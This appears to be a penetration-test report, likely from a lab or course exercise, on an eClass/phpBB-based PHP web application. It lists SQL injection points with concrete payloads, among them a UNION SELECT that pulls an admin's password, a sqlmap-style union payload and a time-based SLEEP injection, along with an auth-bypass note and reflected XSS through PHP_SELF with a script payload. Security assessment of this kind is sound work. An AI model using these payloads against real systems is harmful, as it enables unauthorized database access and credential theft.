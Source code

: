 # Security Rapport

## SQLi

### Tags
- Time-based -> T
- Boolean    -> B
- Union      -> U

### /modules/phpbb/
- `viewtopic.php`: ?topic=1&forum=1: topic param injectable: TBU
    -  **AND 12 = 13 ) UNION SELECT password, password FROM eclass.user WHERE username="drunkadmin" --+**

- `reply.php`: ?topic=1&forum=1: same as above.

- `newtopic.php`: ?subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=1&submit=,
                    forum param injectable: TBU,
    - **subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=-9196 UNION ALL SELECT CONCAT(0x7171767171,0x43586c6d6d437675427477685178697356526b754747774876676c514f4c616c454669716742744d,0x716b7a6271)-- -&submit=**


### /modules/auth/
- `newprof.php`: nom_form=1&prenom_form=1&userphone=6505550100&uname=Smith"`true`"&email_form=skipfish@example.com&usercomment=skipfish&department=`1 AND (SELECT 9259 FROM (SELECT(SLEEP(5)))ipgP)`&proflang=1&submit=Submit&auth=1

### /modules/dropbox/

### /modules/create_course

### /info_cours

### /modules/work

### /upgrade/
- `upgrade.php`: Auth bypass SQLi @ `login` param, horizontal privesc to admin,
                vulnerable function -> is_admin()::upgrade_functions.php


## XSS

### $_SERVER['PHP_SELF']

The site is tremendously vulnerable to XSS. By "trememndously" we mean that in every single location there is at least 1 XSS vector via `$_SERVER["PHP_SELF"]`. Because their is no sanitazation on this variable we can inject XSS payloads that get reflected in the site's source code onload. Payloads of the form `"><script> alert("DRAGONS")</script>` are a go. There are functions such as `lang_selections()`::baseTheme.php that carry this vuln with them, but also many other sites in the code that have the above mentioned functionality included.

### The rest
[v] adminannouncements.php
[v] edituser.php
[v] myagenda.php
[v] lostpass.php
[v] newprof.php
[v] newuserreq.php
[x] newuseradmin.php
[v] ldapnewuser.php
[x] ldapnewprofadmin.php
[v] messageList.php
[v] infocours.php
[v] dropbox_submit.php
[v] forum_admin.php
[v] create_course.php 
[v] profile.php
[v] editpost.php
[v] newtopic.php
[v] reply.php
[v] unregcours.php
[v] work.php
[v] adduser.php